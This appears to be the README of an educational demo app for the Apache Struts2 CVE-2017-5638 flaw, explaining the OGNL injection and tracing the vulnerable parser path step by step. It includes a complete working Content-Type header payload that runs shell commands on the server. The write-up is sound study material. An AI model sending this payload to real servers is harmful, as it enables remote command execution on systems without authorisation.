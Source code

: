 # Apache Struts2 Vulnerability | CVE-2017-5638 | Struts2 Version 2.5

## Instructions

To simply run the webapp:
* java -jar ms-cybersecurity-1.jar (uses embedded Tomcat)
* Java 1.8
* the webapp boots on port 8080 by default (localhost:8080)

If you want to modify this source, the project uses the Maven build system:
* When modifying source: mvn package (create .jar)

NVD [CVE-2017-5638](https://nvd.nist.gov/vuln/detail/CVE-2017-5638)

## The Payload

The clever aspect of this vulernability is the exploitation of OGNL (Object Graph Navigation Library).

OGNL uses expressions to perform tasks, and two of the expressions that are allowed is the ability to invoke arbitrary classes in the framework, and chain events. Reference guide [OGNL Language Guide](https://commons.apache.org/proper/commons-ognl/language-guide.html).

So for example, it is possible then to instantiate edu.uvu.ms.cybersecurity.Command object with OGNL 
 
    (#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)))
     
 Or, in a more practical sense, one can invoke the java.lang.ProcessBuilder class to run system level commands 
  
    (#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())

The following payload contains a command to invoke edu.uvu.ms.cybersecurity.Command and print the command issued to the server into the console, and then proceed to execute the command. (to illustrate chaining of events, and invoking classes)


    Content-Type :  %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#p=new edu.uvu.ms.cybersecurity.Command(#cmd)).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}


A portion of this payload was pulled from [Rapid7 GitHub](https://github.com/rapid7/metasploit-framework/issues/8064)

## The Breakdown (as viewed from my IDE)

The Jakarta MultiPart Parser:
   
The issue is how the Parser doesn't escape incoming values in the Content-Type header. What this means is that an OGNL expression can be packaged into the Content-Header. When the header is determined that it is MultiPart it sends it off to the OgnlTextParser.class, which simply interprets the OGNL expression and subsequently ends up executing arbitrary commands.

The following is a step-by-step look at how this vulnerability is exploited.

The Struts2 Dispatcher: org.apache.struts2.dispatcher.Dispatcher

The Struts Dispatcher.class receives the request, and determines that it should be handled by the JakartaMultiPartRequest.class parser method (matches on multipart/form-data in String)
![Dispatcher](src/main/resources/META-INF/resources/images/Dispatcher-wrapRequest.png)

The OGNL expression from the Content-Header is then passed into the 'parse' method.

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-parse.png)

During the parsing attempt, an exception is thrown as it is unable to parse the OGNL expression, and ends up in JakartaMultiPartRequest.class buildError method

![Dispatcher](src/main/resources/META-INF/resources/images/JakartaMultiPartRequest-buildError.png)

The buildError method attempts to find an appropriate error message to return to the user, however, in order to do this, it has to uses the LocalizedTextUtil.class findText method

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-findText.png)

The LocalizedTextUtil.class findText method will in turn call getDefaultMessage and pass in the Content-Header information

![Dispatcher](src/main/resources/META-INF/resources/images/LocalizedTextUtil-getDefaultMessage.png)

The TextParseUtil.class translateVariables method delegates to the OgnlTextParser.class evaluate method

![Dispatcher](src/main/resources/META-INF/resources/images/TextParseUtil-translateVariables.png)

The result being that any OGNL expressions are now executed

![Dispatcher](src/main/resources/META-INF/resources/images/OglnTextParser-evaluate.png)

                      
